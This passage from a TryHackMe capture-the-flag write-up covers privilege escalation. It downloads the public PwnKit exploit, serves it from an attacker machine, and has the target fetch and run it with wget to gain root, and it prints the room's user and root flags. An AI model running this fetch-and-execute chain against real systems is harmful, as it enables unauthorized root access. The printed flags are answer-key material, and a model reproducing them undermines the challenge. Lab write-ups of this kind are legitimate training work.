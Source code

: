 
## Privilege Escalation to root

Check sudo privileges:

```bash
sudo -l
```

Output shows:

```
(root) PASSWD: /usr/bin/pkexec
```

Because `pkexec` is allowed, a PwnKit exploit can be used to obtain root.

On attacker machine:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
python3 -m http.server 8000
```

On target (adjust attacker IP):

```bash
wget http://10.XX.XX.XX:8000/PwnKit
chmod +x PwnKit
./PwnKit
```

Verify root:

```bash
whoami
# root
```

Root flag:
```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```

---

## Flags

- User: THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
- Root: THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}

---

Notes:
- Keep attacker IPs and exact paths adjusted to your environment.
- Use these commands responsibly and only in authorized labs.

## Room Complete!
